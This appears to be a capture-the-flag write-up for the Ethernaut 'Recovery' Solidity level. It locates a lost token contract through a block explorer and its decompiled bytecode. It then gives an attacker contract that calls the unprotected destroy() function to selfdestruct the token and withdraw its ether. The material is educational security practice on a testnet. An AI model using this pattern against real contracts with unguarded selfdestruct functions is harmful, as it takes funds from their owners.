 ## 17. Recovery

Goal for this exercise is:

- Recover (or remove) 0.5 ether from the lost contract address


<br/>

Here is the contract code:
~~~
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  fallback() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
~~~

<br>

By looking at the contract creation transaction with rinkeby.etherscan.io two additional sends come up.
One for 1 eth and one for 0.5 eth, mayby the one with 0.5 eth is our lost SimpleToken contract address. 

Closer look into 0.5 eth address with etherscan.io EVM bytecode decompiler reveals our "lost" SimpleToken contract:
~~~
#
#  Panoramix v4 Oct 2019 
#  Decompiled source of rinkeby:0x1234...
# 
#  Let's make the world open source 
# 
#
#  I failed with these: 
#  - _fallback()
#  All the rest is below.
#

def storage:
  name is array of uint256 at storage 0
  balances is mapping of uint256 at storage 1

def name(): # not payable
  return name[0 len name.length]

def balances(address _param1): # not payable
  require calldata.size - 4 >= 32
  return balances[_param1]

#
#  Regular functions
#

def destroy(address _to): # not payable
  require calldata.size - 4 >= 32
  selfdestruct(_to)

def transfer(address _to, uint256 _value): # not payable
  require calldata.size - 4 >= 64
  require balances[caller] >= _value
  if _value > balances[caller]:
      revert with 0, 'SafeMath: subtraction overflow'
  balances[caller] -= _value
  balances[addr(_to)] = _value
~~~

<br>

Now we can recover funds by calling`destroy()`function.

Here is a contract for it:
~~~
pragma solidity ^0.6.0;

interface SimpleToken {
  function destroy(address payable _to) external;
}

contract Recover {

    SimpleToken simpleToken = SimpleToken(0x1234...);
    address payable owner;
    
    // fund contract here    
    constructor() public payable {
        owner = msg.sender;
    }
    
    receive() external payable {}
    
    function callDestroy() public {
        // lets destroy SimpleToken contract and recover funds here
        simpleToken.destroy(address(this));
    }

    // get funds back
    function withdraw() external {
        require(msg.sender == owner);
        owner.transfer(address(this).balance);
    }    
    
}
~~~
